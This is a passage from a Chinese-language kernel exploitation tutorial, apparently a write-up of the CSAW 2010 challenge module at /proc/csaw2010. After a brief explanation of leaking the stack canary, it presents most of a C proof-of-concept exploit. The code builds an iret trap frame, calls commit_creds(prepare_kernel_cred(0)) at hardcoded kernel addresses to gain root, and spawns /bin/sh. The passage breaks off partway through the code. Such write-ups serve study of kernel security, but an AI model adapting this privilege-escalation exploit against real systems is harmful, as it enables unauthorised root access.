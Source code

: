 &nbsp;&nbsp;&nbsp;&nbsp;<font size=2>这样就能很简单的泄漏出canary了（只是我不太明白在内核中0x40-0x10之后canary应该在0x30偏移处吧，不知道为啥用户层缓冲区里前0x10个字节没了，偏移成了0x20），有了canary我们就可以绕过栈保护，接下来就是常规的栈溢出攻击了，原理第二节讲过了所以不赘述了，最终poc如下：</font></br>

```C
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <string.h>
#include <stdint.h>

struct trap_frame {
    void *eip;
    uint32_t cs;
    uint32_t eflags;
    void *esp;
    uint32_t ss;
} __attribute__((packed));

void launch_shell(void)
{
    execl("/bin/sh", "sh", NULL);
}

struct trap_frame tf;
void prepare_tf(void)
{
    asm("pushl %cs; popl tf+4;"
        "pushfl; popl tf+8;"
        "pushl %esp; popl tf+12;"
        "pushl %ss; popl tf+16;");
    tf.eip = &launch_shell;
    tf.esp -= 1024;
}

#define KERNCALL __attribute__((regparm(3)))
void *(*prepare_kernel_cred)(void *) KERNCALL = (void *) 0xc1067fc0;
void *(*commit_creds)(void *) KERNCALL = (void *) 0xc1067e20;
void payload(void)
{
    commit_creds(prepare_kernel_cred(0));
    asm("mov $tf, %esp;"
        "iret;");
}

int main(int argc, char *argv[])
{
    int fd = open("/proc/csaw2010", O_RDWR);
    if (!fd) {
        printf("error\n");
        exit(1);
    }
    lseek(fd, 16, SEEK_CUR);
    char buffer[64];
    read(fd, buffer, 64);
    int i, j;
    for (i = 0; i < 4; i++) {
        for (j = 0; j < 16; j++) printf("%02x ", buffer[i*16+j] & 0xff);
        printf(" | ");
        for (j = 0; j < 16; j++) printf("%c", buffer[i*16+j] & 0xff);
        printf("\n");
    }
    char canary[4];
```